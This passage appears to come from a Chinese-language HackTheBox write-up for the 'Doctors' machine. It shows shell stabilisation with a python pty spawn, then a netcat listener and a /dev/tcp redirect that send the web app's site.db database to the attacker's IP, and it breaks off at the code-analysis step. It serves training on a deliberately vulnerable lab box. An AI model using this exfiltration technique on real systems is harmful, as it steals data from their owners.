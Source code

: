 ![Screenshot_20240417_222202](./图/Screenshot_20240417_222202.png)

```c
然后再次访问
http://doctors.htb/archive
```

![Screenshot_20240417_222256](./图/Screenshot_20240417_222256.png)



# 三.提权

## 1.web-->shaun

### (1.必要的措施

#### 1).持久连接

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

#### 2).全局变量

```c
export TERM=xterm
```

![Screenshot_20240417_225250](./图/Screenshot_20240417_225250.png)

### (2.翻箱倒柜

```c
cd blog
ls
cd flaskblog/
ls
```



#### 1).分析数据库文件

##### (1).传输数据

```C
进攻方 "nc -lvnp 9001 > site.db"
被害方 "cat site.db > /dev/tcp/10.10.14.22/9001"
```

![Screenshot_20240417_231633](./图/Screenshot_20240417_231633.png)

##### (2).分析代码
